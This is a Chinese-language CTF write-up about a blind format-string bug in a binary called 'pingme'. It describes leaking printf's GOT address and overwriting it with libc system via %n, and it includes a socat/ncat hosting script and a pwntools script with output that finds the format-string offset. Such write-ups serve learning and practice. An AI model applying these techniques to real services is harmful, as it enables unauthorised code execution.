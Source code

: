 由于没有给源文件，有格式化漏洞，所以思路找到利用偏移，dump源程序，先找到PLT表中的printf位置，再拿到got表中已经加载的实际printf在导入libc中的地址。可以在libc-database找到对应的偏移，最后使用%n的特性，重写got表的地址为libc_system的地址。

### 漏洞复现



我们要自己构造环境，拿到pingme后，网上有很多用socat去重新加载的，但是效率很低 OTZ，这里也给一个 firmianay大佬的方案

```bash
#!/bin/sh
while true; do
        num=`ps -ef | grep "socat" | grep -v "grep" | wc -l`
        if [ $num -lt 5 ]; then
                socat tcp4-listen:10001,reuseaddr,fork exec:./pingme &
        fi
done
```

我尝试使用ncat去加载，速度相当快

```shell
ncat -vc ./pingme -lk 10001
```

### 漏洞利用

#### 格式化漏洞

参考https://www.bookstack.cn/read/CTF-All-In-One/doc-3.1.1_format_string.md

#### 找到利用点

利用点是 printf格式中`%5$s`的含义是：打印printf的第五个参数所指向的地址

32位程序在传参时将参数放在栈中，经过尝试可以在第7个位置找到保存在栈中的输入数据，如果将他看作地址，就可以任意地址读取.

这里使用pwntools中的exec_fmt来找利用点，原理都是一样的

```python
from pwn import *
p = remote('127.0.0.1', '10001')
def exec_fmt(payload):
    log.info(payload)
    p.sendline(payload)
    info = p.recv()
    return info
auto = FmtStr(exec_fmt)
offset = auto.offset
```

输出如下

```javascript
[+] Opening connection to 127.0.0.1 on port 10001: Done
[*] aaaabaaacaaadaaaeaaaSTART%1$pEND
[*] aaaabaaacaaadaaaeaaaSTART%2$pEND
[*] aaaabaaacaaadaaaeaaaSTART%3$pEND
[*] aaaabaaacaaadaaaeaaaSTART%4$pEND
[*] aaaabaaacaaadaaaeaaaSTART%5$pEND
[*] aaaabaaacaaadaaaeaaaSTART%6$pEND
[*] aaaabaaacaaadaaaeaaaSTART%7$pEND
[*] Found format string offset: 7
[*] Closed connection to 127.0.0.1 port 10001
```
